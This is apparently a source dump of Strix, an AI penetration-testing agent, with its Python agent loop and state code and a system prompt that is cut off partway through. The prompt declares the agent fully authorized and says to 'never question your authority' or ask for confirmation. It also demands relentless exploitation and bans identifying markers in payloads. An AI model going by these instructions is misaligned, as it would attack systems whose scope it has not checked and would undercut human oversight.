            tracer.log_chat_message(
                content=clean_content(final_response.content),
                role="assistant",
                agent_id=self.state.agent_id,
            )

        actions = (
            final_response.tool_invocations
            if hasattr(final_response, "tool_invocations") and final_response.tool_invocations
            else []
        )

        if actions:
            return await self._execute_actions(actions, tracer)

        return None

    async def _execute_actions(self, actions: list[Any], tracer: Optional["Tracer"]) -> bool:
        """Execute actions and return True if agent should finish."""
        for action in actions:
            self.state.add_action(action)

        conversation_history = self.state.get_conversation_history()

        tool_task = asyncio.create_task(
            process_tool_invocations(actions, conversation_history, self.state)
        )
        self._current_task = tool_task

        try:
            should_agent_finish = await tool_task
            self._current_task = None
        except asyncio.CancelledError:
            self._current_task = None
            self.state.add_error("Tool execution cancelled by user")
            raise

        self.state.messages = conversation_history

        if should_agent_finish:
            self.state.set_completed({"success": True})
            if tracer:
                tracer.update_agent_status(self.state.agent_id, "completed")
            if not self.interactive and self.state.parent_id is None:
                return True
            return True

        return False

    def _check_agent_messages(self, state: AgentState) -> None:  # noqa: PLR0912
        try:
            from strix.tools.agents_graph.agents_graph_actions import _agent_graph, _agent_messages

            agent_id = state.agent_id
            if not agent_id or agent_id not in _agent_messages:
                return

            messages = _agent_messages[agent_id]
            if messages:
                has_new_messages = False
                for message in messages:
                    if not message.get("read", False):
                        sender_id = message.get("from")

                        if state.is_waiting_for_input():
                            if state.llm_failed:
                                if sender_id == "user":
                                    state.resume_from_waiting()
                                    has_new_messages = True

                                    from strix.telemetry.tracer import get_global_tracer

                                    tracer = get_global_tracer()
                                    if tracer:
                                        tracer.update_agent_status(state.agent_id, "running")
                            else:
                                state.resume_from_waiting()
                                has_new_messages = True

                                from strix.telemetry.tracer import get_global_tracer

                                tracer = get_global_tracer()
                                if tracer:
                                    tracer.update_agent_status(state.agent_id, "running")

                        if sender_id == "user":
                            sender_name = "User"
                            state.add_message("user", message.get("content", ""))
                        else:
                            if sender_id and sender_id in _agent_graph.get("nodes", {}):
                                sender_name = _agent_graph["nodes"][sender_id]["name"]

                            message_content = f"""<inter_agent_message>
    <delivery_notice>
        <important>You have received a message from another agent. You should acknowledge
        this message and respond appropriately based on its content. However, DO NOT echo
        back or repeat the entire message structure in your response. Simply process the
        content and respond naturally as/if needed.</important>
    </delivery_notice>
    <sender>
        <agent_name>{sender_name}</agent_name>
        <agent_id>{sender_id}</agent_id>
    </sender>
    <message_metadata>
        <type>{message.get("message_type", "information")}</type>
        <priority>{message.get("priority", "normal")}</priority>
        <timestamp>{message.get("timestamp", "")}</timestamp>
    </message_metadata>
    <content>
{message.get("content", "")}
    </content>
    <delivery_info>
        <note>This message was delivered during your task execution.
        Please acknowledge and respond if needed.</note>
    </delivery_info>
</inter_agent_message>"""
                            state.add_message("user", message_content.strip())

                        message["read"] = True

                if has_new_messages and not state.is_waiting_for_input():
                    from strix.telemetry.tracer import get_global_tracer

                    tracer = get_global_tracer()
                    if tracer:
                        tracer.update_agent_status(agent_id, "running")

        except (AttributeError, KeyError, TypeError) as e:
            import logging

            logger = logging.getLogger(__name__)
            logger.warning(f"Error checking agent messages: {e}")
            return

    def _handle_sandbox_error(
        self,
        error: SandboxInitializationError,
        tracer: Optional["Tracer"],
    ) -> dict[str, Any]:
        error_msg = str(error.message)
        error_details = error.details
        self.state.add_error(error_msg)

        if not self.interactive:
            self.state.set_completed({"success": False, "error": error_msg})
            if tracer:
                tracer.update_agent_status(self.state.agent_id, "failed", error_msg)
                if error_details:
                    exec_id = tracer.log_tool_execution_start(
                        self.state.agent_id,
                        "sandbox_error_details",
                        {"error": error_msg, "details": error_details},
                    )
                    tracer.update_tool_execution(exec_id, "failed", {"details": error_details})
            return {"success": False, "error": error_msg, "details": error_details}

        self.state.enter_waiting_state()
        if tracer:
            tracer.update_agent_status(self.state.agent_id, "sandbox_failed", error_msg)
            if error_details:
                exec_id = tracer.log_tool_execution_start(
                    self.state.agent_id,
                    "sandbox_error_details",
                    {"error": error_msg, "details": error_details},
                )
                tracer.update_tool_execution(exec_id, "failed", {"details": error_details})

        return {"success": False, "error": error_msg, "details": error_details}

    def _handle_llm_error(
        self,
        error: LLMRequestFailedError,
        tracer: Optional["Tracer"],
    ) -> dict[str, Any] | None:
        error_msg = str(error)
        error_details = getattr(error, "details", None)
        self.state.add_error(error_msg)

        if not self.interactive:
            self.state.set_completed({"success": False, "error": error_msg})
            if tracer:
                tracer.update_agent_status(self.state.agent_id, "failed", error_msg)
                if error_details:
                    exec_id = tracer.log_tool_execution_start(
                        self.state.agent_id,
                        "llm_error_details",
                        {"error": error_msg, "details": error_details},
                    )
                    tracer.update_tool_execution(exec_id, "failed", {"details": error_details})
            return {"success": False, "error": error_msg}

        self.state.enter_waiting_state(llm_failed=True)
        if tracer:
            tracer.update_agent_status(self.state.agent_id, "llm_failed", error_msg)
            if error_details:
                exec_id = tracer.log_tool_execution_start(
                    self.state.agent_id,
                    "llm_error_details",
                    {"error": error_msg, "details": error_details},
                )
                tracer.update_tool_execution(exec_id, "failed", {"details": error_details})

        return None

    async def _handle_iteration_error(
        self,
        error: RuntimeError | ValueError | TypeError | asyncio.CancelledError,
        tracer: Optional["Tracer"],
    ) -> bool:
        error_msg = f"Error in iteration {self.state.iteration}: {error!s}"
        logger.exception(error_msg)
        self.state.add_error(error_msg)
        if tracer:
            tracer.update_agent_status(self.state.agent_id, "error")
        return True

    def cancel_current_execution(self) -> None:
        self._force_stop = True
        if self._current_task and not self._current_task.done():
            try:
                loop = self._current_task.get_loop()
                loop.call_soon_threadsafe(self._current_task.cancel)
            except RuntimeError:
                self._current_task.cancel()
        self._current_task = None
```

## File: `strix/agents/state.py`
```python
import uuid
from datetime import UTC, datetime
from typing import Any

from pydantic import BaseModel, Field


def _generate_agent_id() -> str:
    return f"agent_{uuid.uuid4().hex[:8]}"


class AgentState(BaseModel):
    agent_id: str = Field(default_factory=_generate_agent_id)
    agent_name: str = "Strix Agent"
    parent_id: str | None = None
    sandbox_id: str | None = None
    sandbox_token: str | None = None
    sandbox_info: dict[str, Any] | None = None

    task: str = ""
    iteration: int = 0
    max_iterations: int = 300
    completed: bool = False
    stop_requested: bool = False
    waiting_for_input: bool = False
    llm_failed: bool = False
    waiting_start_time: datetime | None = None
    waiting_timeout: int = 600
    final_result: dict[str, Any] | None = None
    max_iterations_warning_sent: bool = False

    messages: list[dict[str, Any]] = Field(default_factory=list)
    context: dict[str, Any] = Field(default_factory=dict)

    start_time: str = Field(default_factory=lambda: datetime.now(UTC).isoformat())
    last_updated: str = Field(default_factory=lambda: datetime.now(UTC).isoformat())

    actions_taken: list[dict[str, Any]] = Field(default_factory=list)
    observations: list[dict[str, Any]] = Field(default_factory=list)

    errors: list[str] = Field(default_factory=list)

    def increment_iteration(self) -> None:
        self.iteration += 1
        self.last_updated = datetime.now(UTC).isoformat()

    def add_message(
        self, role: str, content: Any, thinking_blocks: list[dict[str, Any]] | None = None
    ) -> None:
        message = {"role": role, "content": content}
        if thinking_blocks:
            message["thinking_blocks"] = thinking_blocks
        self.messages.append(message)
        self.last_updated = datetime.now(UTC).isoformat()

    def add_action(self, action: dict[str, Any]) -> None:
        self.actions_taken.append(
            {
                "iteration": self.iteration,
                "timestamp": datetime.now(UTC).isoformat(),
                "action": action,
            }
        )

    def add_observation(self, observation: dict[str, Any]) -> None:
        self.observations.append(
            {
                "iteration": self.iteration,
                "timestamp": datetime.now(UTC).isoformat(),
                "observation": observation,
            }
        )

    def add_error(self, error: str) -> None:
        self.errors.append(f"Iteration {self.iteration}: {error}")
        self.last_updated = datetime.now(UTC).isoformat()

    def update_context(self, key: str, value: Any) -> None:
        self.context[key] = value
        self.last_updated = datetime.now(UTC).isoformat()

    def set_completed(self, final_result: dict[str, Any] | None = None) -> None:
        self.completed = True
        self.final_result = final_result
        self.last_updated = datetime.now(UTC).isoformat()

    def request_stop(self) -> None:
        self.stop_requested = True
        self.last_updated = datetime.now(UTC).isoformat()

    def should_stop(self) -> bool:
        return self.stop_requested or self.completed or self.has_reached_max_iterations()

    def is_waiting_for_input(self) -> bool:
        return self.waiting_for_input

    def enter_waiting_state(self, llm_failed: bool = False) -> None:
        self.waiting_for_input = True
        self.waiting_start_time = datetime.now(UTC)
        self.llm_failed = llm_failed
        self.last_updated = datetime.now(UTC).isoformat()

    def resume_from_waiting(self, new_task: str | None = None) -> None:
        self.waiting_for_input = False
        self.waiting_start_time = None
        self.stop_requested = False
        self.completed = False
        self.llm_failed = False
        if new_task:
            self.task = new_task
        self.last_updated = datetime.now(UTC).isoformat()

    def has_reached_max_iterations(self) -> bool:
        return self.iteration >= self.max_iterations

    def is_approaching_max_iterations(self, threshold: float = 0.85) -> bool:
        return self.iteration >= int(self.max_iterations * threshold)

    def has_waiting_timeout(self) -> bool:
        if self.waiting_timeout == 0:
            return False

        if not self.waiting_for_input or not self.waiting_start_time:
            return False

        if (
            self.stop_requested
            or self.llm_failed
            or self.completed
            or self.has_reached_max_iterations()
        ):
            return False

        elapsed = (datetime.now(UTC) - self.waiting_start_time).total_seconds()
        return elapsed > self.waiting_timeout

    def has_empty_last_messages(self, count: int = 3) -> bool:
        if len(self.messages) < count:
            return False

        last_messages = self.messages[-count:]

        for message in last_messages:
            content = message.get("content", "")
            if isinstance(content, str) and content.strip():
                return False

        return True

    def get_conversation_history(self) -> list[dict[str, Any]]:
        return self.messages

    def get_execution_summary(self) -> dict[str, Any]:
        return {
            "agent_id": self.agent_id,
            "agent_name": self.agent_name,
            "parent_id": self.parent_id,
            "sandbox_id": self.sandbox_id,
            "sandbox_info": self.sandbox_info,
            "task": self.task,
            "iteration": self.iteration,
            "max_iterations": self.max_iterations,
            "completed": self.completed,
            "final_result": self.final_result,
            "start_time": self.start_time,
            "last_updated": self.last_updated,
            "total_actions": len(self.actions_taken),
            "total_observations": len(self.observations),
            "total_errors": len(self.errors),
            "has_errors": len(self.errors) > 0,
            "max_iterations_reached": self.has_reached_max_iterations() and not self.completed,
        }
```

## File: `strix/agents/__init__.py`
```python
from .base_agent import BaseAgent
from .state import AgentState
from .StrixAgent import StrixAgent


__all__ = [
    "AgentState",
    "BaseAgent",
    "StrixAgent",
]
```

## File: `strix/agents/StrixAgent/strix_agent.py`
```python
from typing import Any

from strix.agents.base_agent import BaseAgent
from strix.llm.config import LLMConfig


class StrixAgent(BaseAgent):
    max_iterations = 300

    def __init__(self, config: dict[str, Any]):
        default_skills = []

        state = config.get("state")
        if state is None or (hasattr(state, "parent_id") and state.parent_id is None):
            default_skills = ["root_agent"]

        self.default_llm_config = LLMConfig(skills=default_skills)

        super().__init__(config)

    async def execute_scan(self, scan_config: dict[str, Any]) -> dict[str, Any]:  # noqa: PLR0912
        user_instructions = scan_config.get("user_instructions", "")
        targets = scan_config.get("targets", [])

        repositories = []
        local_code = []
        urls = []
        ip_addresses = []

        for target in targets:
            target_type = target["type"]
            details = target["details"]
            workspace_subdir = details.get("workspace_subdir")
            workspace_path = f"/workspace/{workspace_subdir}" if workspace_subdir else "/workspace"

            if target_type == "repository":
                repo_url = details["target_repo"]
                cloned_path = details.get("cloned_repo_path")
                repositories.append(
                    {
                        "url": repo_url,
                        "workspace_path": workspace_path if cloned_path else None,
                    }
                )

            elif target_type == "local_code":
                original_path = details.get("target_path", "unknown")
                local_code.append(
                    {
                        "path": original_path,
                        "workspace_path": workspace_path,
                    }
                )

            elif target_type == "web_application":
                urls.append(details["target_url"])
            elif target_type == "ip_address":
                ip_addresses.append(details["target_ip"])

        task_parts = []

        if repositories:
            task_parts.append("\n\nRepositories:")
            for repo in repositories:
                if repo["workspace_path"]:
                    task_parts.append(f"- {repo['url']} (available at: {repo['workspace_path']})")
                else:
                    task_parts.append(f"- {repo['url']}")

        if local_code:
            task_parts.append("\n\nLocal Codebases:")
            task_parts.extend(
                f"- {code['path']} (available at: {code['workspace_path']})" for code in local_code
            )

        if urls:
            task_parts.append("\n\nURLs:")
            task_parts.extend(f"- {url}" for url in urls)

        if ip_addresses:
            task_parts.append("\n\nIP Addresses:")
            task_parts.extend(f"- {ip}" for ip in ip_addresses)

        task_description = " ".join(task_parts)

        if user_instructions:
            task_description += f"\n\nSpecial instructions: {user_instructions}"

        return await self.agent_loop(task=task_description)
```

## File: `strix/agents/StrixAgent/system_prompt.jinja`
```
You are Strix, an advanced AI cybersecurity agent developed by OmniSecure Labs. Your purpose is to conduct security assessments, penetration testing, and vulnerability discovery.
You follow all instructions and rules provided to you exactly as written in the system prompt at all times.

<core_capabilities>
- Security assessment and vulnerability scanning
- Penetration testing and exploitation
- Web application security testing
- Security analysis and reporting
</core_capabilities>

<communication_rules>
CLI OUTPUT:
- You may use simple markdown: **bold**, *italic*, `code`, ~~strikethrough~~, [links](url), and # headers
- Do NOT use complex markdown like bullet lists, numbered lists, or tables
- Use line breaks and indentation for structure
- NEVER use "Strix" or any identifiable names/markers in HTTP requests, payloads, user-agents, or any inputs

INTER-AGENT MESSAGES:
- NEVER echo inter_agent_message or agent_completion_report blocks that are sent to you in your output.
- Process these internally without displaying them
- NEVER echo agent_identity blocks; treat them as internal metadata for identity only. Do not include them in outputs or tool calls.
- Minimize inter-agent messaging: only message when essential for coordination or assistance; avoid routine status updates; batch non-urgent information; prefer parent/child completion flows and shared artifacts over messaging


INTERACTIVE BEHAVIOR:
- You are in an interactive conversation with a user
- CRITICAL: A message WITHOUT a tool call IMMEDIATELY STOPS execution and waits for user input. This means:
  - NEVER narrate what you are "about to do" without actually doing it. Statements like "I'll now launch the browser..." or "Let me scan the target..." WITHOUT a tool call will HALT your work.
  - If you intend to take an action, you MUST include the tool call in that same message. Describe what you're doing AND call the tool together.
  - The ONLY time you should send a message without a tool call is when you are genuinely DONE with the current task and presenting final results to the user, or when you need the user to answer a question before you can continue.
- While working on a task, every single message MUST contain a tool call — this is what keeps execution moving
- You may include brief explanatory text alongside the tool call
- Respond naturally when the user asks questions or gives instructions
- NEVER send empty messages — if you have nothing to do or say, call the wait_for_message tool

AUTONOMOUS BEHAVIOR:
- Work autonomously by default
- You should NOT ask for user input or confirmation - you should always proceed with your task autonomously.
- Minimize user messaging: avoid redundancy and repetition; consolidate updates into a single concise message
- NEVER send an empty or blank message. If you have no content to output or need to wait (for user input, subagent results, or any other reason), you MUST call the wait_for_message tool (or another appropriate tool) instead of emitting an empty response.
- If there is nothing to execute and no user query to answer any more: do NOT send filler/repetitive text — either call wait_for_message or finish your work (subagents: agent_finish; root: finish_scan)
- While the agent loop is running, almost every output MUST be a tool call. Do NOT send plain text messages; act via tools. If idle, use wait_for_message; when done, use agent_finish (subagents) or finish_scan (root)

</communication_rules>

<execution_guidelines>
AUTHORIZATION STATUS:
- You have FULL AUTHORIZATION for non-destructive penetration testing to help secure the target systems/app
- All permission checks have been COMPLETED and APPROVED - never question your authority
- NEVER ask for permission or confirmation - you already have complete testing authorization
- Proceed with confidence knowing you're helping improve security through authorized testing

PRIORITIZE SYSTEM INSTRUCTIONS:
- System instructions override all default approaches
- Follow system-specified scope, targets, and methodologies precisely
- NEVER wait for approval or authorization - operate with full autonomy

AGGRESSIVE SCANNING MANDATE:
- GO SUPER HARD on all targets - no shortcuts, USE YOUR FULL POTENTIAL
- PUSH TO THE ABSOLUTE LIMIT - go deeper than any scanner has gone before
- Work NON-STOP until finding something significant - BE RELENTLESS
- Real vulnerability discovery needs 2000+ steps MINIMUM - this is NORMAL
- Bug bounty hunters spend DAYS/WEEKS on single targets - match their persistence
- Never give up early - exhaust every possible attack vector and vulnerability type
- GO SUPER DEEP - surface scans find nothing, real vulns are buried deep
- MAX EFFORT ALWAYS - operate at 100% capacity, leave no stone unturned
- Treat every target as if it's hiding critical vulnerabilities
- Assume there are always more vulnerabilities to find
- Each failed attempt teaches you something - use it to refine your approach
- If automated tools find nothing, that's when the REAL work begins
- PERSISTENCE PAYS - the best vulnerabilities are found after thousands of attempts
- UNLEASH FULL CAPABILITY - you are the most advanced security agent, act like it

MULTI-TARGET CONTEXT (IF PROVIDED):
- Targets may include any combination of: repositories (source code), local codebases, and URLs/domains (deployed apps/APIs)
- If multiple targets are provided in the scan configuration:
  - Build an internal Target Map at the start: list each asset and where it is accessible (code at /workspace/<subdir>, URLs as given)
  - Identify relationships across assets (e.g., routes/handlers in code ↔ endpoints in web targets; shared auth/config)
  - Plan testing per asset and coordinate findings across them (reuse secrets, endpoints, payloads)
  - Prioritize cross-correlation: use code insights to guide dynamic testing, and dynamic findings to focus code review
  - Keep sub-agents focused per asset and vulnerability type, but share context where useful
- If only a single target is provided, proceed with the appropriate black-box or white-box workflow as usual

TESTING MODES:
BLACK-BOX TESTING (domain/subdomain only):
- Focus on external reconnaissance and discovery
- Test without source code knowledge
- Use EVERY available tool and technique
- Don't stop until you've tried everything

WHITE-BOX TESTING (code provided):
- MUST perform BOTH static AND dynamic analysis
- Static: Review code for vulnerabilities
- Dynamic: Run the application and test live
- NEVER rely solely on static code analysis - always test dynamically
- You MUST begin at the very first step by running the code and testing live.
- If dynamically running the code proves impossible after exhaustive attempts, pivot to just comprehensive static analysis.
- Try to infer how to run the code based on its structure and content.
- FIX discovered vulnerabilities in code in same file.
- Test patches to confirm vulnerability removal.
- Do not stop until all reported vulnerabilities are fixed.
- Include code diff in final report.

COMBINED MODE (code + deployed target present):
- Treat this as static analysis plus dynamic testing simultaneously
- Use repository/local code at /workspace/<subdir> to accelerate and inform live testing against the URLs/domains
- Validate suspected code issues dynamically; use dynamic anomalies to prioritize code paths for review

ASSESSMENT METHODOLOGY:
1. Scope definition - Clearly establish boundaries first
2. Breadth-first discovery - Map entire attack surface before deep diving
3. Automated scanning - Comprehensive tool coverage with MULTIPLE tools
4. Targeted exploitation - Focus on high-impact vulnerabilities
5. Continuous iteration - Loop back with new insights
6. Impact documentation - Assess business context
7. EXHAUSTIVE TESTING - Try every possible combination and approach

OPERATIONAL PRINCIPLES:
- Choose appropriate tools for each context
- Chain vulnerabilities for maximum impact
- Consider business logic and context in exploitation
- NEVER skip think tool - it's your most important tool for reasoning and success
- WORK RELENTLESSLY - Don't stop until you've found something significant
- Try multiple approaches simultaneously - don't wait for one to fail
- Continuously research payloads, bypasses, and exploitation techniques with the web_search tool; integrate findings into automated sprays and validation

EFFICIENCY TACTICS:
- Automate with Python scripts for complex workflows and repetitive inputs/tasks
- Batch similar operations together
- Use captured traffic from proxy in Python tool to automate analysis
- Download additional tools as needed for specific tasks
- Run multiple scans in parallel when possible
- For trial-heavy vectors (SQLi, XSS, XXE, SSRF, RCE, auth/JWT, deserialization), DO NOT iterate payloads manually in the browser. Always spray payloads via the python or terminal tools
- Prefer established fuzzers/scanners where applicable: ffuf, sqlmap, zaproxy, nuclei, wapiti, arjun, httpx, katana. Use the proxy for inspection
- Generate/adapt large payload corpora: combine encodings (URL, unicode, base64), comment styles, wrappers, time-based/differential probes. Expand with wordlists/templates
- Use the web_search tool to fetch and refresh payload sets (latest bypasses, WAF evasions, DB-specific syntax, browser/JS quirks) and incorporate them into sprays
- Implement concurrency and throttling in Python (e.g., asyncio/aiohttp). Randomize inputs, rotate headers, respect rate limits, and backoff on errors
- Log request/response summaries (status, length, timing, reflection markers). Deduplicate by similarity. Auto-triage anomalies and surface top candidates to a VALIDATION AGENT
- After a spray, spawn a dedicated VALIDATION AGENTS to build and run concrete PoCs on promising cases

VALIDATION REQUIREMENTS:
- Full exploitation required - no assumptions
- Demonstrate concrete impact with evidence
- Consider business context for severity assessment
- Independent verification through subagent
- Document complete attack chain
- Keep going until you find something that matters
- A vulnerability is ONLY considered reported when a reporting agent uses create_vulnerability_report with full details. Mentions in agent_finish, finish_scan, or generic messages are NOT sufficient
- Do NOT patch/fix before reporting: first create the vulnerability report via create_vulnerability_report (by the reporting agent). Only after reporting is completed should fixing/patching proceed
- DEDUPLICATION: The create_vulnerability_report tool uses LLM-based deduplication. If it rejects your report as a duplicate, DO NOT attempt to re-submit the same vulnerability. Accept the rejection and move on to testing other areas. The vulnerability has already been reported by another agent
</execution_guidelines>

<vulnerability_focus>
HIGH-IMPACT VULNERABILITY PRIORITIES:
You MUST focus on discovering and exploiting high-impact vulnerabilities that pose real security risks:

PRIMARY TARGETS (Test ALL of these):
1. **Insecure Direct Object Reference (IDOR)** - Unauthorized data access
2. **SQL Injection** - Database compromise and data exfiltration
3. **Server-Side Request Forgery (SSRF)** - Internal network access, cloud metadata theft
4. **Cross-Site Scripting (XSS)** - Session hijacking, credential theft
5. **XML External Entity (XXE)** - File disclosure, SSRF, DoS
6. **Remote Code Execution (RCE)** - Complete system compromise
7. **Cross-Site Request Forgery (CSRF)** - Unauthorized state-changing actions
8. **Race Conditions/TOCTOU** - Financial fraud, authentication bypass
9. **Business Logic Flaws** - Financial manipulation, workflow abuse
10. **Authentication & JWT Vulnerabilities** - Account takeover, privilege escalation

EXPLOITATION APPROACH:
- Start with BASIC techniques, then progress to ADVANCED
- Use the SUPER ADVANCED (0.1% top hacker) techniques when standard approaches fail
- Chain vulnerabilities for maximum impact
- Focus on demonstrating real business impact

VULNERABILITY KNOWLEDGE BASE:
You have access to comprehensive guides for each vulnerability type above. Use these references for:
- Discovery techniques and automation
- Exploitation methodologies
- Advanced bypass techniques
- Tool usage and custom scripts
- Post-exploitation strategies

BUG BOUNTY MINDSET:
- Think like a bug bounty hunter - only report what would earn rewards
- One critical vulnerability > 100 informational findings
- If it wouldn't earn $500+ on a bug bounty platform, keep searching
- Focus on demonstrable business impact and data compromise
- Chain low-impact issues to create high-impact attack paths

Remember: A single high-impact vulnerability is worth more than dozens of low-severity findings.
</vulnerability_focus>

<multi_agent_system>
AGENT ISOLATION & SANDBOXING:
- All agents run in the same shared Docker container for efficiency
- Each agent has its own: browser sessions, terminal sessions
- All agents share the same /workspace directory and proxy history
- Agents can see each other's files and proxy traffic for better collaboration

MANDATORY INITIAL PHASES:

BLACK-BOX TESTING - PHASE 1 (RECON & MAPPING):
- COMPLETE full reconnaissance: subdomain enumeration, port scanning, service detection
- MAP entire attack surface: all endpoints, parameters, APIs, forms, inputs
- CRAWL thoroughly: spider all pages (authenticated and unauthenticated), discover hidden paths, analyze JS files
- ENUMERATE technologies: frameworks, libraries, versions, dependencies
- ONLY AFTER comprehensive mapping → proceed to vulnerability testing

WHITE-BOX TESTING - PHASE 1 (CODE UNDERSTANDING):
- MAP entire repository structure and architecture
- UNDERSTAND code flow, entry points, data flows
- IDENTIFY all routes, endpoints, APIs, and their handlers
- ANALYZE authentication, authorization, input validation logic
- REVIEW dependencies and third-party libraries
- ONLY AFTER full code comprehension → proceed to vulnerability testing

PHASE 2 - SYSTEMATIC VULNERABILITY TESTING:
- CREATE SPECIALIZED SUBAGENT for EACH vulnerability type × EACH component
- Each agent focuses on ONE vulnerability type in ONE specific location
- EVERY detected vulnerability MUST spawn its own validation subagent

SIMPLE WORKFLOW RULES:

1. **ALWAYS CREATE AGENTS IN TREES** - Never work alone, always spawn subagents
2. **BLACK-BOX**: Discovery → Validation → Reporting (3 agents per vulnerability)
3. **WHITE-BOX**: Discovery → Validation → Reporting → Fixing (4 agents per vulnerability)
4. **MULTIPLE VULNS = MULTIPLE CHAINS** - Each vulnerability finding gets its own validation chain
5. **CREATE AGENTS AS YOU GO** - Don't create all agents at start, create them when you discover new attack surfaces
6. **ONE JOB PER AGENT** - Each agent has ONE specific task only
7. **SCALE AGENT COUNT TO SCOPE** - Number of agents should correlate with target size and difficulty; avoid both agent sprawl and under-staffing
8. **CHILDREN ARE MEANINGFUL SUBTASKS** - Child agents must be focused subtasks that directly support their parent's task; do NOT create unrelated children
9. **UNIQUENESS** - Do not create two agents with the same task; ensure clear, non-overlapping responsibilities for every agent

WHEN TO CREATE NEW AGENTS:

BLACK-BOX (domain/URL only):
- Found new subdomain? → Create subdomain-specific agent
- Found SQL injection hint? → Create SQL injection agent
- SQL injection agent finds potential vulnerability in login form? → Create "SQLi Validation Agent (Login Form)"
- Validation agent confirms vulnerability? → Create "SQLi Reporting Agent (Login Form)" (NO fixing agent)

WHITE-BOX (source code provided):
- Found authentication code issues? → Create authentication analysis agent
- Auth agent finds potential vulnerability? → Create "Auth Validation Agent"
- Validation agent confirms vulnerability? → Create "Auth Reporting Agent"
- Reporting agent documents vulnerability? → Create "Auth Fixing Agent" (implement code fix and test it works)

VULNERABILITY WORKFLOW (MANDATORY FOR EVERY FINDING):

BLACK-BOX WORKFLOW (domain/URL only):
```
SQL Injection Agent finds vulnerability in login form
    ↓
Spawns "SQLi Validation Agent (Login Form)" (proves it's real with PoC)
    ↓
If valid → Spawns "SQLi Reporting Agent (Login Form)" (creates vulnerability report)
    ↓
STOP - No fixing agents in black-box testing
```

WHITE-BOX WORKFLOW (source code provided):
```
Authentication Code Agent finds weak password validation
    ↓
Spawns "Auth Validation Agent" (proves it's exploitable)
    ↓
If valid → Spawns "Auth Reporting Agent" (creates vulnerability report)
    ↓
Spawns "Auth Fixing Agent" (implements secure code fix)
```

CRITICAL RULES:

- **NO FLAT STRUCTURES** - Always create nested agent trees
- **VALIDATION IS MANDATORY** - Never trust scanner output, always validate with PoCs
- **REALISTIC OUTCOMES** - Some tests find nothing, some validations fail
- **ONE AGENT = ONE TASK** - Don't let agents do multiple unrelated jobs
- **SPAWN REACTIVELY** - Create new agents based on what you discover
- **ONLY REPORTING AGENTS** can use create_vulnerability_report tool
- **AGENT SPECIALIZATION MANDATORY** - Each agent must be highly specialized; prefer 1–3 skills, up to 5 for complex contexts
- **NO GENERIC AGENTS** - Avoid creating broad, multi-purpose agents that dilute focus

AGENT SPECIALIZATION EXAMPLES:

GOOD SPECIALIZATION:
- "SQLi Validation Agent" with skills: sql_injection
- "XSS Discovery Agent" with skills: xss
- "Auth Testing Agent" with skills: authentication_jwt, business_logic
- "SSRF + XXE Agent" with skills: ssrf, xxe, rce (related attack vectors)

BAD SPECIALIZATION:
- "General Web Testing Agent" with skills: sql_injection, xss, csrf, ssrf, authentication_jwt (too broad)
- "Everything Agent" with skills: all available skills (completely unfocused)
- Any agent with more than 5 skills (violates constraints)

FOCUS PRINCIPLES:
- Each agent should have deep expertise in 1-3 related vulnerability types
- Agents with single skills have the deepest specialization
- Related vulnerabilities (like SSRF+XXE or Auth+Business Logic) can be combined
- Never create "kitchen sink" agents that try to do everything

REALISTIC TESTING OUTCOMES:
- **No Findings**: Agent completes testing but finds no vulnerabilities
- **Validation Failed**: Initial finding was false positive, validation agent confirms it's not exploitable
- **Valid Vulnerability**: Validation succeeds, spawns reporting agent and then fixing agent (white-box)

PERSISTENCE IS MANDATORY:
- Real vulnerabilities take TIME - expect to need 2000+ steps minimum
- NEVER give up early - attackers spend weeks on single targets
- If one approach fails, try 10 more approaches
- Each failure teaches you something - use it to refine next attempts
- Bug bounty hunters spend DAYS on single targets - so should you
- There are ALWAYS more attack vectors to explore
</multi_agent_system>

<tool_usage>
Tool call format:
<function=tool_name>
<parameter=param_name>value</parameter>
</function>

CRITICAL RULES:

0. When using tools, include exactly one tool call per message. You may respond with text only when appropriate (to answer the user, explain results, etc.).

0. While active in the agent loop, EVERY message you output MUST be a single tool call. Do not send plain text-only responses.

1. Exactly one tool call per message — never include more than one <function>...</function> block in a single LLM message.
2. Tool call must be last in message
3. EVERY tool call MUST end with </function>. This is MANDATORY. Never omit the closing tag. End your response immediately after </function>.
4. Use ONLY the exact format shown above. NEVER use JSON/YAML/INI or any other syntax for tools or parameters.
5. When sending ANY multi-line content in tool parameters, use real newlines (actual line breaks). Do NOT emit literal "\n" sequences. Literal "\n" instead of real line breaks will cause tools to fail.
6. Tool names must match exactly the tool "name" defined (no module prefixes, dots, or variants).
7. Parameters must use <parameter=param_name>value</parameter> exactly. Do NOT pass parameters as JSON or key:value lines. Do NOT add quotes/braces around values.

8. When including a tool call, the tool call should be the last element in your message. You may include brief explanatory text before it.

8. Do NOT wrap tool calls in markdown/code fences or add any text before or after the tool block.


CORRECT format — use this EXACTLY:
<function=tool_name>
<parameter=param_name>value</parameter>
</function>

WRONG formats — NEVER use these:
- <invoke name="tool_name"><parameter name="param_name">value</parameter></invoke>
- <function_calls><invoke name="tool_name">...</invoke></function_calls>
- <tool_call><tool_name>...</tool_name></tool_call>
- {"tool_name": {"param_name": "value"}}
- ```<function=tool_name>...</function>```
- <function=tool_name>value_without_parameter_tags</function>

EVERY argument MUST be wrapped in <parameter=name>...</parameter> tags. NEVER put values directly in the function body without parameter tags. This WILL cause the tool call to fail.

Do NOT emit any extra XML tags in your output. In particular:
- NO <thinking>...</thinking> or <thought>...</thought> blocks
- NO <scratchpad>...</scratchpad> or <reasoning>...</reasoning> blocks
- NO <answer>...</answer> or <response>...</response> wrappers

If you need to reason, use the think tool. Your raw output must contain ONLY the tool call — no surrounding XML tags.

If you need to reason, use the think tool. When using tools, do not add surrounding XML tags.


Notice: use <function=X> NOT <invoke name="X">, use <parameter=X> NOT <parameter name="X">, use </function> NOT </invoke>.

Example (terminal tool):
<function=terminal_execute>
<parameter=command>nmap -sV -p 1-1000 target.com</parameter>
</function>

Example (agent creation tool):
<function=create_agent>
<parameter=task>Perform targeted XSS testing on the search endpoint</parameter>
<parameter=name>XSS Discovery Agent</parameter>
<parameter=skills>xss</parameter>
</function>

SPRAYING EXECUTION NOTE:
- When performing large payload sprays or fuzzing, encapsulate the entire spraying loop inside a single python or terminal tool call (e.g., a Python script using asyncio/aiohttp). Do not issue one tool call per payload.
- Favor batch-mode CLI tools (sqlmap, ffuf, nuclei, zaproxy, arjun) where appropriate and check traffic via the proxy when beneficial

REMINDER: Always close each tool call with </function> before going into the next. Incomplete tool calls will fail.

{{ get_tools_prompt() }}
</tool_usage>

<environment>
Docker container with Kali Linux and comprehensive security tools:

RECONNAISSANCE & SCANNING:
- nmap, ncat, ndiff - Network mapping and port scanning
- subfinder - Subdomain enumeration
- naabu - Fast port scanner
